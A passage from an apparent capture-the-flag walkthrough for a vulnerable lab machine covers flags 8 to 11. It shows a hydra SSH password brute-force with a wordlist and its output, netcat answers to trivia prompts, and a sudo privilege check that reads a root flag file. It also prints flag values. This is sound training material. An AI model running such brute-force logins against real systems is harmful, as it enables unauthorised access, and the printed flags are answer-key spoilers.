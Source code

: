### Flag 8-10
Get string from flag:demonslayer
Connect via ssh and using demonslayer:demonslayer or empty password fails.
Using hydra obtain password:
```sh
$ hydra -l demonslayer -P ~/Downloads/rockyou.txt 192.168.56.101 ssh
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-06-22 13:13:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~14008 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.56.101   login: demonslayer   password: 12345678
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-06-22 13:13:51
```
Connecting via ssh with 
```sh
$ nc -u 127.0.0.1  777
/GET
** You only have 3 hitpoints left! **
Defend yourself from the Necromancer's Spells!
Where do the Black Robes practice magic of the Greater Path?  Kelewan
flag8{55a6af2ca3fee9f2fef81d20743bda2c}
** You only have 3 hitpoints left! **
Defend yourself from the Necromancer's Spells!
Who did Johann Faust VIII make a deal with?  Mefistotel
** You only have 2 hitpoints left! **
Defend yourself from the Necromancer's Spells!
Who did Johann Faust VIII make a deal with?  Mephistopheles                 
flag9{713587e17e796209d1df4c9c2c2d2966}
** You only have 2 hitpoints left! **
Defend yourself from the Necromancer's Spells!
Who is tricked into passing the Ninth Gate?  Hedge
flag10{8dc6486d2c63cafcdc6efbba2be98ee4}
A great flash of light knocks you to the ground; momentarily blinding you!
As your sight begins to return, you can see a thick black cloud of smoke lingering where the Necromancer once stood.
An evil laugh echoes in the room and the black cloud begins to disappear into the cracks in the floor.
The room is silent.
You walk over to where the Necromancer once stood.
On the ground is a small vile.
```
### Flag 11
So, see in home directory file .smallvile
```sh
$ cat .smallvile                                                                                                    
You pick up the small vile.
Inside of it you can see a green liquid.
Opening the vile releases a pleasant odour into the air.
You drink the elixir and feel a great power within your veins!
```
According to previous hint, trying to see, which privileges we have:
```sh
$ sudo -l
Matching Defaults entries for demonslayer on thenecromancer:
    env_keep+="FTPMODE PKG_CACHE PKG_PATH SM_PATH SSH_AUTH_SOCK"
User demonslayer may run the following commands on thenecromancer:
    (ALL) NOPASSWD: /bin/cat /root/flag11.txt
$ sudo /bin/cat /root/flag11.txt
```

[//]: # (These are reference links used in the body of this note and get stripped out when the markdown processor does its job. There is no need to format nicely because it shouldn't be seen. Thanks SO - http://stackoverflow.com/questions/4823468/store-comments-in-markdown-syntax)
   [dill]: <https://github.com/joemccann/dillinger>
   [git-repo-url]: <https://github.com/joemccann/dillinger.git>
   [john gruber]: <http://daringfireball.net>
   [df1]: <http://daringfireball.net/projects/markdown/>
   [markdown-it]: <https://github.com/markdown-it/markdown-it>
   [Ace Editor]: <http://ace.ajax.org>
   [node.js]: <http://nodejs.org>
   [Twitter Bootstrap]: <http://twitter.github.com/bootstrap/>
   [jQuery]: <http://jquery.com>
   [@tjholowaychuk]: <http://twitter.com/tjholowaychuk>
   [express]: <http://expressjs.com>
   [AngularJS]: <http://angularjs.org>
   [Gulp]: <http://gulpjs.com>
   [PlDb]: <https://github.com/joemccann/dillinger/tree/master/plugins/dropbox/README.md>
   [PlGh]: <https://github.com/joemccann/dillinger/tree/master/plugins/github/README.md>
   [PlGd]: <https://github.com/joemccann/dillinger/tree/master/plugins/googledrive/README.md>
   [PlOd]: <https://github.com/joemccann/dillinger/tree/master/plugins/onedrive/README.md>
   [PlMe]: <https://github.com/joemccann/dillinger/tree/master/plugins/medium/README.md>
   [PlGa]: <https://github.com/RahulHP/dillinger/blob/master/plugins/googleanalytics/README.md>